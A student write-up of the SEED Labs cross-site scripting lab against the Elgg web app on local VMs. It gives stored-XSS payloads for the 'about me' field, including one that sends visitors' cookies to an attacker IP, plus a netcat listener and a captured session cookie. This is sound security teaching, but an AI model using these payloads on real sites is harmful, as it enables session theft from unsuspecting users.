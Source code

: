 # *__XSS attack lab__*
---
### Brief
The tasks are based on a web application called ELGG which is open source. It is designed to be like an open source version of Facebook or myspace. The prebuilt vm called seedubuntu is used to host the web application and there are a few users already created.
Logging in to the web app will be done from a different vm on the same virtual box network.

### Task 1 : Post a malicious message to display an alert window
The web app is hosted on seedubuntu vm and ubuntu vm is used to create a new account user11. To make the web app visible as a site named `www.xsslabelgg.com`, add a name and IP address parameter on the ubuntu vm's hosts file.
Log into the account `user11`. Go to about me section. This section allows adding 'about me' information to our profiles. By default the editor provided is a rich text editor which adds extra text to whatever is inside. This is counterproductive to the attack therefore this editor is removed and the plain text editor is used.
The section is used to add javascript code inside it -
```js
<script>alert('XSS');</script>
```
On saving this an alert is displayed on the page. The web app sees the text inside the box to show it o nthe browser but since it is a js code, it gets executed.
When some other user, say `alice`, tries to view the profile of `use11`, her webpage also gives the alert window.

### Task 2 : Posting a malicious message to display cookies
This is along the same lines as the previous task and does similar thing except the new code that is put inside the about me section now displays the cookie.
The new code is -
```js
<script>alert(document.cookie);</script>
```
This displays the cookie of `user11` when saved. On reloading too it does the same.
When a separate user say `alice` navigates to `user11`'s account, her own cookie gets displayed.
By design, the browser does not display the code, it runs it.

### Task 3 : Stealing cookies from the victim’s machine
This attack focuses on providing code in the 'about me' section such that the attacker can obtain the cookie without having to be preset when the account of `user11` is visited. For this the attacker injects a code that basically is a GET request for an image and also adds the cookie of the victim in the url itself.
```js
<script>document.write('<img src=http://192.168.56.4:1234?c='+escape(document.cookie)+'  >');</script>
```
The IP address for the http part is the attacker's IP address.
On the attacker machine we can listen o the specified port using netcat or any other means.
```bash
nc -l -p 1234
```
The next time someone on the web application, say `alice` visits the profile of `user11`, the code gets executed and the attacker gains the cookie for himself.
The nc output seems like -
```
GET /?c=Elgg%3Dtlgbp3diifsf0007299puq2kr1 HTTP/1.1
Host: 192.168.56.4:1234
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```